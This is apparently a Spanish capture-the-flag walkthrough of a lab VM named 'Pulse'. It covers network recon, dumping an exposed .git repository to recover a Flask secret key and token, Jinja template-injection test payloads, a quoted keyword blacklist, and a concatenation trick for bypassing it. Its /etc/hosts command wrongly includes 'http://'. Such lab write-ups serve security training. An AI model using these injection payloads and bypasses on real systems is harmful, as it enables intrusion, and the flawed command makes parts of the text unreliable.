






```
888~-_   888   | 888     ,d88~~\ 888~~  
888   \  888   | 888     8888    888___ 
888    | 888   | 888     `Y88b   888    
888   /  888   | 888      `Y88b, 888    
888_-~   Y88   | 888        8888 888    
888       "8__/  888____ \__88P' 888___ 
```
____
# Reconocimiento
___
Identificamos la `IP` de la maquina victima:

```bash
arp-scan -I eth0 --localnet
```

```
Interface: eth0, type: EN10MB, MAC: 08:00:27:5a:87:bc, IPv4: 10.20.2.10
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.20.2.1       52:54:00:12:35:00       QEMU
10.20.2.2       52:54:00:12:35:00       QEMU
10.20.2.3       08:00:27:0f:3f:12       PCS Systemtechnik GmbH
10.20.2.14      08:00:27:15:2d:66       PCS Systemtechnik GmbH
```

Enviamos ping a `10.20.2.14` para verificar su `TTL` y determinar el sistema operativo.

```bash
ping -c 1 10.20.2.14
```

```
PING 10.20.2.14 (10.20.2.14) 56(84) bytes of data.
64 bytes from 10.20.2.14: icmp_seq=1 ttl=64 time=3.39 ms
```
 
Ahora enviamos un escaneo con `nmap` para descubrir puertos abiertos.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.20.2.14 -oG allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:15:2D:66 (Oracle VirtualBox virtual NIC)
```

# Enumeración
---
Se encontraron dos puertos abiertos: `22,80`, veamos ahora si podemos obtener mas información acerca de ellos.

```bash
nmap -sCV -sS -p 22,80 10.20.2.14 -oN targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.3 (Ubuntu)
| http-git: 
|   10.20.2.14:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: security: enforce X-Pulse-Auth header authentication on /dia...
|_http-server-header: nginx/1.28.3 (Ubuntu)
|_http-title: Pulse Monitor | Cluster Telemetry Console
MAC Address: 08:00:27:15:2D:66 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como podemos ver, `nmap` ha encontrado que se puede acceder a la carpeta `./git`, vamos a comprobar en el navegador que se encuentra en el puerto `80`.



En el navegador encontramos algo como esto, sin embargo si vamos a la URL encontrada por `nmap`: `10.20.2.14:80/.git/`, vemos que marca un error `404`:


Ejecutamos `dirsearch` para ver si encontramos rutas o archivos de acceso.

```bash
dirsearch -u http://10.20.2.14 -x 404
```

```
Target: http://10.20.2.14/

[17:21:10] Starting:                                                                                                                                                                         
[17:21:39] 301 -  178B  - /dev  ->  http://10.20.2.14/dev/                  
[17:21:39] 200 -    2KB - /dev/                                             
[17:22:00] 200 -  168B  - /robots.txt
```

Encontramos que tenemos acceso a la ruta `/dev/` y al archivo `robots.txt`, revisemos lo que se encuentra en ambos recursos. En la ruta `http://10.20.2.14/dev/`.



De este mensaje obtenemos información importante:
- EL monitoreo real se movió al subdominio: <mark>http://monitor.pulse.hmv</mark>
- La carpeta de repositorio `./git` <mark>esta expuesta</mark>.
- El endpoint `/diagnostics` requiere autorización, <mark>el token esta expuesto en el repositorio</mark>.
- La sincronización de usuarios se ejecuta desde la ruta `/opt/pulse`.

Si accedemos ahora al archivo `robots.txt`.

```
User-agent: *
Disallow: /dev/
Disallow: /internal/

# Pulse Infrastructure Portal
# Notice: Internal monitoring and diagnostic tools moved to: http://monitor.pulse.hmv
```

Vemos que la nota refuerza la indicación de que el monitoreo se ha movido a: `http://monitor.pulse.hmv`, agreguemos ese subdominio al archivo `hosts` para acceder a el.

```bash
echo "10.20.2.14 http://monitor.pulse.hmv" | tee -a /etc/hosts > /dev/null
```

Accedamos ahora a `http://monitor.pulse.hmv`.



Al tener acceso a este subdominio podemos realizar una enumeración de archivos y directorios con `dirsearch` utilizando la opción `-x 404` para evitar todos los mensajes de "pagina no encontrada".

```bash
dirsearch -u http://monitor.pulse.hmv -x 404
```

```
Target: http://monitor.pulse.hmv/

[16:56:04] Starting:                                                                                                                                                                         
[16:56:19] 301 -  178B  - /.git  ->  http://monitor.pulse.hmv/.git/         
[16:56:19] 200 -    1KB - /.git/                                            
[16:56:19] 200 -   78B  - /.git/COMMIT_EDITMSG                              
[16:56:19] 200 -  143B  - /.git/config                                      
[16:56:19] 200 -   73B  - /.git/description                                 
[16:56:19] 200 -   23B  - /.git/HEAD
[16:56:19] 200 -    2KB - /.git/hooks/                                      
[16:56:19] 200 -  427B  - /.git/index                                       
[16:56:19] 200 -  267B  - /.git/info/                                       
[16:56:19] 200 -  240B  - /.git/info/exclude                                
[16:56:19] 200 -  374B  - /.git/logs/
[16:56:19] 200 -  621B  - /.git/logs/HEAD
[16:56:19] 301 -  178B  - /.git/logs/refs/heads  ->  http://monitor.pulse.hmv/.git/logs/refs/heads/
[16:56:19] 301 -  178B  - /.git/logs/refs  ->  http://monitor.pulse.hmv/.git/logs/refs/
[16:56:20] 200 -  621B  - /.git/logs/refs/heads/master
[16:56:20] 200 -    2KB - /.git/objects/                                    
[16:56:20] 200 -  376B  - /.git/refs/                                       
[16:56:20] 200 -   41B  - /.git/refs/heads/master                           
[16:56:20] 301 -  178B  - /.git/refs/heads  ->  http://monitor.pulse.hmv/.git/refs/heads/
[16:56:20] 301 -  178B  - /.git/refs/tags  ->  http://monitor.pulse.hmv/.git/refs/tags/
[17:01:43] 301 -  178B  - /static  ->  http://monitor.pulse.hmv/static/
```

Podemos ver que efectivamente desde aquí tenemos acceso a la carpeta del repositorio `/.git/`, esto es bueno porque podemos reconstruir el proyecto y ver si podemos obtener información valiosa en archivos de código o incluso recuperar cambios realizados en el proyecto, para esto utilizaremos la herramienta `git-dumper`.

```bash
git-dumper http://monitor.pulse.hmv pulse_repo
```

Esto generara una carpeta llamada `pulse_repo` donde se reconstruirá el proyecto completo d la web que vemos en el navegador con todo el historial de `commits` realizados para que los podamos analizar, accedemos a la carpeta y vemos que hay en el interior.

```bash
cd pulse_repo 
ls -l
```

```
total 12
-rw-rw-r-- 1 kali kali 2564 Sep 24 11:42 app.py
-rw-rw-r-- 1 kali kali  234 Sep 24 11:42 config.py
drwxrwxr-x 2 kali kali 4096 Sep 24 11:42 templates
```

Analizamos el contenido de `app.py`, y encontramos datos interesantes en el siguiente fragmento:

```
...
app = Flask(__name__)
app.config['SECRET_KEY'] = 'c798e1f02a45b891d2ef64098bc19a32'

# Security token for automated alerting diagnostic probes
DIAGNOSTIC_TOKEN = "pU1s3_d14gn0st1cs_k3y_98234"
...
```

Como vemos de aquí obtenemos:
- **SECRET_KEY = c798e1f02a45b891d2ef64098bc19a32**
- **DIAGNOSTIC_TOKEN = pU1s3_d14gn0st1cs_k3y_98234**

Si recordamos en el aviso que encontramos previamente indica que `/diagnostics` requiere de un TOKEN de autorización, veamos si este token encontrado nos  es de utilidad. accedemos a `http://monitor.pulse.hmv/diagnostics`.



Efectivamente vemos que el formulario solicita un token, pero también vemos que permite el envío de variables `jinja`, lo que nos permite ver si podemos ejecutar código y tratar de obtener una shell inversa para conectarnos a la maquina victima, realizamos una prueba enviando: 

```jinja
{{6*3}}
```



Vemos que se ejecuta el código de forma satisfactoria, tratamos de ver si devuelve el id del usuario que utiliza el sitio web.

```jinja
{{os.popen("id").read()}}
```



Como vemos da un error, seguramente el sistema esta configurado para detectar este tipo de intrusiones, de echo en el archivo `app.py` podemos ver el siguiente fragmento que confirma una lista negra definida para un `Filter`, que evalúa lo que se envía por el formulario.

```
...
# Filter dangerous keywords in templates
    blacklist = ['os', 'popen', 'system', 'subprocess', 'eval', 'exec', 'commands', '__import__']
    for keyword in blacklist:
        if keyword in template.lower():
            return jsonify({
                "status": "error",
                "message": f"Security restriction: Keyword '{keyword}' is blocked by template sanitizer."
            }), 400
...
```

Para saltarnos este filtro podemos utilizar las técnicas de <mark>Ofuscación de Payloads y Evasión de Filtros (Filter Bypass</mark>, se puede fragmentar la palabra utilizando el operador de concatenación de Jinja (`~`) o simplemente uniendo cadenas consecutivas, por ejemplo: `object['pop' ~ 'en']`.
